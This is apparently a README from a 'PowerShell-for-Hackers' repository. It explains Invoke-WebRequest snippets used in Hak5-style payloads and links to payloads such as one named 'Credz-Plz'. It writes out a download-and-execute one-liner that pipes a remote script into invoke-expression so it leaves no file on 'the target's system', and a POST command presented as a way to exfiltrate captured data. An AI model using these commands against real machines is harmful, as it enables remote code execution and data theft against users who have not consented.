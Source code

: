 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

Appreciate [UberGuidoZ](https://github.com/UberGuidoZ) for contributing to this function.

# Invoke-WebRequest

## Description

These functions are used to either download or upload files or data

## The Function

### [IWR-Save] 

This formatting of the IWR function will download a file from a selected URL and save it to the directory of your choosing 

This is helpful if you are trying to save an image or sound file to use in your script

------------------------------------------------------------------------------------------------------------------------------

$env:TMP\   

Use this environment variable to save the file to your Temp directory

$Env:USERPROFILE\Desktop\    

Use this environment variable to save a file to your desktop

```
iwr < Your url for the intended file>?dl=1 -O $env:TMP\image.jpg
```

### [IWR-Fileless] 

This formatting of the IWR function will download a file and execute it immedietely without saving it to memory

This is helpful if you are trying to download and execute a script without keeping it on the target's system

```
$pl = iwr < Your url for the intended file>?dl=1; invoke-expression $pl
```

### [IWR-Post] 

This formatting of the IWR function will exfiltrate data via a DNS/POST

This is helpful if you are trying to exfiltrate the data you have captured

[Request Catcher](https://requestcatcher.com/)<-------Helpful website to test POST requests

```
iwr -Uri < Your url for recieving the intended file> -Method POST -Body "text to upload"
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
